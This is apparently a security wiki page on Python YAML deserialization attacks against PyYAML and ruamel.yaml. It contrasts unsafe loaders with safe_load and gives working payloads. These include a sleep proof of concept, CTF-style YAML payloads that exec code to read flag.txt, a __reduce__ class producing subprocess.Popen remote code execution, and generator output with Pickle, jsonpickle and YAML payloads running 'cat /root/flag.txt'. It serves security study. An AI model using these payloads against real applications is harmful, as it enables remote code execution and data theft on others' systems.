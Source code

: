 # Python Yaml Deserialization

## Yaml **Deserialization**

**Yaml** python libraries is also capable to **serialize python objects** and not just raw data:

```
print(yaml.dump(str("lol")))
lol
...

print(yaml.dump(tuple("lol")))
!!python/tuple
- l
- o
- l
 
print(yaml.dump(range(1,10)))
!!python/object/apply:builtins.range
- 1
- 10
- 1
```

Check how the **tuple** isn’t a raw type of data and therefore it was **serialized**. And the same happened with the **range** (taken from the builtins).

![](<../../.gitbook/assets/image (628).png>)

**safe\_load()** or **safe\_load\_all()** uses SafeLoader and **don’t support class object deserialization**. Class object deserialization example:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:builtins.range [1, 10, 1]'

print(yaml.load(data, Loader=UnsafeLoader)) #range(1, 10)
print(yaml.load(data, Loader=Loader)) #range(1, 10)
print(yaml.load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=Loader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=UnsafeLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.load_all(data, Loader=FullLoader)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load(data)) #range(1, 10)
print(yaml.full_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>
print(yaml.unsafe_load_all(data)) #<generator object load_all at 0x7fc4c6d8f040>

#The other ways to load data will through an error as they won't even attempt to
#deserialize the python object
```

The previous code used **unsafe\_load** to load the serialized python class. This is because in **version >= 5.1**, it doesn’t allow to **deserialize any serialized python class or class attribute**, with Loader not specified in load() or Loader=SafeLoader.

### Basic Exploit

Example on how to **execute a sleep**:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
data = b'!!python/object/apply:time.sleep [2]'
print(yaml.load(data, Loader=UnsafeLoader)) #Executed
print(yaml.load(data, Loader=Loader)) #Executed
print(yaml.load_all(data))
print(yaml.load_all(data, Loader=Loader))
print(yaml.load_all(data, Loader=UnsafeLoader))
print(yaml.load_all(data, Loader=FullLoader))
print(yaml.unsafe_load(data)) #Executed
print(yaml.full_load_all(data))
print(yaml.unsafe_load_all(data))
```

### Vulnerable .load("\<content>") without Loader

**Old versions** of pyyaml were vulnerable to deserialisations attacks if you **didn't specify the Loader** when loading something: `yaml.load(data)`

You can find the **** [**description of the vulnerability here**](https://hackmd.io/@defund/HJZajCVlP)**.** The proposed **exploit** in that page is:

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Or you could also use this **one-liner provided by @ishaack**:

```yaml
!!python/object/new:str {state: !!python/tuple ['print(exec("print(o"+"pen(\"flag.txt\",\"r\").read())"))', !!python/object/new:Warning {state : {update : !!python/name:exec } }]}
```

Note that in **recent versions** you cannot **no longer call `.load()`** **without a `Loader`** and the **`FullLoader`** is **no longer vulnerable** to this attack.

## RCE

Kindly note payload creation can be done with **any python YAML module (PyYAML or ruamel.yaml), in the same way**. The same payload can exploit both YAML module or any module based on PyYAML or ruamel.yaml

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import subprocess

class Payload(object):
    def __reduce__(self):
        return (subprocess.Popen,('ls',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(deserialized_data)

#!!python/object/apply:subprocess.Popen
#- ls

print(yaml.load(deserialized_data, Loader=UnsafeLoader))
print(yaml.load(deserialized_data, Loader=Loader))
print(yaml.unsafe_load(deserialized_data))
```

### Tool to create Payloads

The tool [https://github.com/j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) can be used to generate python deserialization payloads to abuse **Pickle, PyYAML, jsonpickle and ruamel.yaml:**

```bash
python3 peas.py     
Enter RCE command :cat /root/flag.txt
Enter operating system of target [linux/windows] . Default is linux :linux
Want to base64 encode payload ? [N/y] :
Enter File location and name to save :/tmp/example
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :All
Done Saving file !!!!

cat /tmp/example_jspick 
{"py/reduce": [{"py/type": "subprocess.Popen"}, {"py/tuple": [{"py/tuple": ["cat", "/root/flag.txt"]}]}]}

cat /tmp/example_pick | base64 -w0
gASVNQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwDY2F0lIwOL3Jvb3QvZmxhZy50eHSUhpSFlFKULg==

cat /tmp/example_yaml
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
    - /root/flag.txt
```

## References

For more in depth information about this technique read: [https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
